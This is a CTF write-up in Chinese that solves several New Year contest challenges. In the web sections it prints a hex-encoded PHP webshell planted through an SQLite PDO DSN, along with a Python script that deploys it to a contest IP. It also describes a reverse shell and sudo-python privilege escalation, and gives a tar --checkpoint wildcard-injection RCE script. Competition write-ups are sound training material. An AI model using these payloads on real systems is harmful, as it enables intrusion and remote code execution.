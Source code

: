 
### 猜谜

1. 一个看作/，一个看作.，一个看作-
2. morse code

### 進撃の巨人

1. 使用 VercCrypt 打开加密卷，使用 key.jpg 作为密钥文件。
2. 提取 hiddenflag.pcapng，用 WireShark 文件-导出对象-HTTP... 导出 encrypted_new_year.txt。
3. base64 解码。

### 新年快乐，红包拿来

4. 访问 /src/
5. {{1e39}}

### 尖头曼的礼物

#### 0. robots.txt

访问得知去看 hint.txt，然后得知要源码。

#### 1. 检查服务器配置错误

如果服务器配置错误，可能会直接返回 PHP 源码。

http://<目标>/index.phps

.phps 是 PHP 源码文件的扩展名，如果配置错误，可能会直接显示源码。

```php
<?php
// $dsn = "mysql:host=localhost;dbname=test";
$dsn = $_POST['dsn'];
$username = $_POST['username'];
$password = $_POST['password'];
$query = $_POST['query'];

if (isset($dsn) && isset($username) && isset($password) && isset($query)) {

    $pdo = new PDO($dsn, $username, $password);

    $stmt = $pdo->query($query);
    $stmt->execute();
    $result = $stmt->fetchAll(PDO::FETCH_ASSOC);

    foreach ($result as $row) {
        echo "id: " . $row['id'] . " name: " . $row['name'] ;
    }
}
// 其实这台电脑上没有 mysql 
```

#### 2. [通过写 SQLite 来 getshell](https://www.cnblogs.com/Ygnniinngg/articles/18678070)

dsn 均设为 sqlite:pre6.php

```sql
CREATE TABLE users (name TEXT);
INSERT INTO users (name) VALUES (x'3c3f7068702066696c655f7075745f636f6e74656e747328226d756d612e706870222c20223c3f706870206576616c285c245f504f53545b636d645d293f3e22293b203f3e');
```

上述 payload 改动过，先访问 pre6.php 触发解析，再向 muma.php POST cmd 参数。

```python
import requests
url = "http://119.27.182.25:11111/index.php"
payload = {
    "dsn": "sqlite:pre6.php",
    "username": " ",
    "password": " ",
    "query": '''CREATE TABLE users (name TEXT);'''
}
requests.post(url, data=payload)
payload["query"] = '''INSERT INTO users (name) VALUES (x'3c3f7068702066696c655f7075745f636f6e74656e747328226d756d612e706870222c20223c3f706870206576616c285c245f504f53545b636d645d293f3e22293b203f3e');'''
requests.post(url, data=payload)
requests.get("http://119.27.182.25:11111/pre6.php")
```

你可以使用上述脚本来快速部署一句话木马。

#### 3. shell 之后

`cat /hint.txt` 得到提示如下：

如果你攻破了我的防线，那我问你，现在有个 flag 在 /root 下，你应该如何获得他？ 给你一个一串神秘字符串：asdflkj

`cat /etc/passwd` 得知有个用户叫 sxrhhh。

设置反向 shell，之后用反向 shell 连上，然后 su sxrhhh 并输入密码 asdflkj 可以到这个用户。

在切换到这个用户之后，我们使用 `sudo -l` 并输入密码得知 sudo 只能以 root 权限执行 python 命令，因此我们 `sudo python` 进入 Python 交互式界面，然后 `import os; os.system("sh")` 进入 root shell，然后 `cat /root/flag`。

注：反向 shell 我用的是 https://github.com/tdragon6/Supershell，跑在自己的 Azure 服务器（不然 docker pull 不下来）上，然后我的反向 shell 本质上应该是木马，用蚁剑传到靶机上的，用别的应该也行。

### 🐍年大吉

```python
import requests
import io

TARGET = "http://127.0.0.1:12562"

requests.post(f"{TARGET}/delete")

malicious_files = [
    ("test1", "cat /flag > test2"),
    ("--checkpoint=1", "dummy"),
    ('--checkpoint-action=exec="sh test1"', "dummy")
]

for filename, content in malicious_files:
    files = {'file': (filename, io.BytesIO(content.encode('utf-8')))}
    response = requests.post(f"{TARGET}/upload", files=files)
    print(f"Uploaded {filename}: {response.status_code}")

# 触发打包下载（执行命令）
requests.get(f"{TARGET}/download")
```

原理：* 通配符会把文件名当成命令的参数，这时我们用 tar 指令独有的 --checkpoint 设置检查点，并且利用到达检查点时执行的指令来进行 RCE，将命令回显输出到当前目录文件，然后调用下载两次，前一次调用指令，后一次下载回显。

### Before Sunset

```python
from itertools import product
from hashlib import sha256
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
from tqdm import tqdm  # 新增进度条库

# 题目数据
note = b'Before_Sunset*xt'
cipher = b'4\xf6\x89\x81:\xd7\xf4\xc4\xad\xb1)\x99\xb1l\xe2\x7f'
enflag = b'\x964\xdcq\xcc\xe9\xde\xfe=\xfb\x08\\\x9e\xe3\xf5\xef^\x9c\x11\xaa\xb8\x97\xe61\x1ee\xe4dV\x0c\x1c\xf7 \xabX]\x92\xd6\xa3\xdegD\xbb\xbd\x98\x90\xeb~'
plaintext = b'happy_newyear!!!'

# 生成所有3字节组合并预计算哈希
print("[1/4] 生成所有可能的密钥组合...")
possible_keys = [bytes(comb) for comb in product(note, repeat=3)]
key_digests = {k: sha256(k).digest() for k in possible_keys}

# 预计算前半部分（key1和key2）
print("[2/4] 预计算前半部分（约需数分钟）...")
forward = {}
for key1 in tqdm(possible_keys, desc="外层循环进度"):  # 添加进度条
    k1 = key_digests[key1]
    c1 = AES.new(k1, AES.MODE_ECB).encrypt(plaintext)
    for key2 in possible_keys:
        k2 = key_digests[key2]
        c2 = AES.new(k2, AES.MODE_ECB).encrypt(c1)
        forward[c2] = (key1, key2)

# 预计算后半部分（key3和key4）
print("[3/4] 预计算后半部分（约需数分钟）...")
backward = {}
for key4 in tqdm(possible_keys, desc="外层循环进度"):  # 添加进度条
    k4 = key_digests[key4]
    c3 = AES.new(k4, AES.MODE_ECB).decrypt(cipher)
    for key3 in possible_keys:
        k3 = key_digests[key3]
        c2_candidate = AES.new(k3, AES.MODE_ECB).decrypt(c3)
        backward[c2_candidate] = (key3, key4)

# 查找中间碰撞
print("[4/4] 查找碰撞并解密flag...")
for c2, (key1, key2) in tqdm(forward.items(), desc="碰撞检测"):
    if c2 in backward:
        key3, key4 = backward[c2]
        keys = [key_digests[key1], key_digests[key2],
                key_digests[key3], key_digests[key4]]
        enkey = sha256(b"".join(keys)).digest()
        flag = unpad(AES.new(enkey, AES.MODE_ECB).decrypt(enflag), AES.block_size)
        print("\nFlag found:", flag.decode())
        exit()

print("No solution found")
```

非常好工作，❤️爱来自 DeepSeek。如下是 Prompt

```plaintext
6. 不开深度思考：（源码省略）如上是 CTF 的 Crypto 题目源码，请帮我写出反推 flag 的脚本
7. 开启深度思考：优化算法，目前这个算法时间过长，不可能实现
8. 开启深度思考：能加个进度显示吗，另外说下PyPy怎么安装
```